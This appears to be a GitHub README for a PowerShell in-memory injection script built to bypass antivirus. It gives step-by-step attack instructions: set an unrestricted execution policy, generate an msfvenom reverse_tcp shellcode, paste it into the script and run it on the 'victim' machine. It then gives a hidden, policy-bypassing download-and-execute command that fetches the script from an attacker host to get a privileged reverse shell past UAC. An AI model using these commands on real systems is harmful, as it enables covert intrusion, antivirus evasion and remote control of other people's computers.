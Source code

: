 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15

[VirusTotal Scan 19/59](https://www.virustotal.com/gui/file/449a8fa6c25894a068b31a62399fda83093cdf430cad98ef579dd70d39df0907/detection)

<h3>Before running the script you have to set the ExecutionPolicy of the target machine to unrestricted:</h3>

```
powershell.exe

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/shell/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

![Captura de pantalla 2023-02-27 210359.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210359.jpg)

<h3>Save the final PowerShell script and run it within the victim Windows machine.</h3>

<h3>We can combine this script with the use of the following command in order to download and inject the script as an Administrator user bypassing UAC, obtaining a privileged reverse shell:</h3>

First of all you have to setup a python web server to host the payload, change the attacker IP and the PowerShell script name.

```
python3 -m http.server 80
```

Then you can use this command within the Windows target system:

```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/AVbypass.ps1'); Invoke-Function"
```
